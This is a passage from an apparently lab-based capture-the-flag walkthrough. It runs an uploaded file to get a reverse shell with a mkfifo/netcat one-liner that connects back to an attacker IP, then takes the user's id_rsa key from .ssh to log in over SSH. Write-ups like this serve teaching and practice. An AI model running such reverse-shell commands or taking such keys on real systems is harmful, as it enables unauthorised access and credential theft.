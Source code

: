 So once submit the upload file we gonna go to path where storage the file and execute the command:

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.45 7272 >/tmp/f
```
And we got the reverse shell in our machine.
We started with the enumeration in Linux but it was very simple, the .ssh is where it normally contains the id_rsa to log in with ssh.

![Image](/assets/img/post/usage/Untitled17.png)

Download the id_rsa for login with ssh

chmod 400 id_rsa (for USER it is READ permission)[^chmod]


```bash
ssh -i id_rsa dash@10.10.11.18
```

![Image](/assets/img/post/usage/Untitled17.png)


[^chmod]: <https://www.quora.com/What-does-chmod-400-mean>